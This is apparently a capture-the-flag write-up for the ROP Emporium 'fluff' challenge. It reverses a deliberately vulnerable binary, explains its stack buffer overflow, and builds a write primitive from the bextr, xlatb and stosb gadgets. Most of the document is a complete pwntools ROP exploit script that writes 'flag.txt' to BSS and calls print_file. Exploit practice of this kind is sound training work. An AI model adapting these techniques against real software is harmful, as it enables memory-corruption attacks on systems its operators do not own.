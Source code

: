 # fluff

## Reversing with Ghidva

### main
```c
int main() {
    pwnme();
    return 0;
}
```

### pwnme
```c
void pwnme() {
  char input[32];
  
  puts("fluff by ROP Emporium");
  puts("x86_64\n");
  memset(input, 0, 0x20);
  puts("You know changing these strings means I have to rewrite my solutions...");
  printf("> ");
  read(0, input, 0x200);
  puts("Thank you!");
  return;
}
```

### print_files
```c

void print_file(char *file_name) {
  char buf[40];
  FILE *file;
  
  file = 0;
  file = fopen(file_name, "r");
  if (file == 0) {
    printf("Failed to open file: %s\n",file_name);
    exit(1);
  }
  fgets(buf, 0x21, file);
  puts(buf);
  fclose(file);
  return;
}
```

## Reversing with ObjDump

### questionableGadgets label
```asm
0000000000400628 <questionableGadgets>:
  400628:       d7                      xlat   BYTE PTR ds:[rbx]
  400629:       c3                      ret    

  40062a:       5a                      pop    rdx
  40062b:       59                      pop    rcx
  40062c:       48 81 c1 f2 3e 00 00    add    rcx,0x3ef2
  400633:       c4 e2 e8 f7 d9          bextr  rbx,rcx,rdx
  400638:       c3                      ret    

  400639:       aa                      stos   BYTE PTR es:[rdi],al
  40063a:       c3                      ret    

  40063b:       0f 1f 44 00 00          nop    DWORD PTR [rax+rax*1+0x0]
```

## The vuln
A `Buffer Overflow` allows us to to create our usual ROPchain after `pwnme` function.

This challenge is a bit different from the last one, since we have no gadgets which directly write in a certain address, so we'll have to build our own `write primitive`.

## The exploit
Using `ObjDump` and `ropper` is possible to see some interesting gadgets (mainly in the [Questionable Gadgets label](#questionablegadgets-label)) like `bextr`, `xlat` and `stos`.

In order to write, we first have to choose where; the `BSS` is a perfect place since it's initialized with zeroes, so our string will be automatically terminated. The first gadget we want to call is the `bextr` one which pops `rdx` and `rcx`, adds `0x3ef2` to `rcx` and eventually runs `bextr`. Then `xlat` helps us setting up `al` which we'll need to correctly call `stos`.

### Instructions:
- `bextr` (Bit Field Extract):
  - 1st operand: `dst`
  - 2nd operand: `src`
  - 3rd operand: `start:end`, the first 8 bits are the `start offset` and the last 8 tell how much to copy.
  - Copies the bits from `src` to `dst` following the rules set by the third operand.

##

- `xlatb` (Table Look-up Translation):
  - Sets `al` to `rbx` + `al`

##

- `stosb` (Store String Byte):
  - 1st operand: `dst`
  - 2nd operand: `src`
  - Writes the character contained in `src` to the memory space pointed by `dst`

## The script
```py
from pwn import *
import os

#
# Context
#

e = context.binary = ELF('fluff')

#
# ROP
#

' Bextr writes to rbx, xlat uses rbx as index and write to al, stos writes al in the ES '

PRINT_FILE          = p64(e.plt['print_file'])

POP_RDI             = p64(next(e.search(asm('pop rdi; ret;'))))
ZERO_EAX_POP_RBP    = p64(next(e.search(asm('mov eax, 0; pop rbp; ret;'))))
XLATB               = p64(next(e.search(asm('xlatb; ret;'))))
BEXTR               = p64(next(e.search(asm('pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret;'))))
STOS                = p64(next(e.search(asm('stosb byte ptr [rdi], al; ret;'))))

BSS_WRITE           = p64(e.bss(offset=0x200))

#
# Offset
#

io = process(e.path)
io.sendlineafter(b'> ', cyclic(0x200))
io.wait()
core = io.corefile
offset = cyclic_find(core.read(core.rsp, 4))
io.close()
info(f'Offset: {offset}')

#
# Exploit
#

io = process(e.path)

target   = b'flag.txt'
payload  = b''
payload += b'A' * offset

payload += POP_RDI
payload += BSS_WRITE

payload += ZERO_EAX_POP_RBP
payload += b'JUNKJUNK'

oldchar = 0
for i in range(len(target)):
    payload += BEXTR
    payload += p64(0b1111111100000000)      # RDX
    target_byte = next(e.search(target[i]))
    payload += p64(target_byte - oldchar - 0x3ef2)  # RCX (-0x3ef2 + correct_number)
    oldchar = target[i]
    
    payload += XLATB
    
    payload += STOS

payload += POP_RDI
payload += BSS_WRITE
payload += PRINT_FILE

io.sendlineafter(b'> ', payload)

info(f'Flag: {io.recvrepeat(1).decode()}')

os.system('rm core*')
```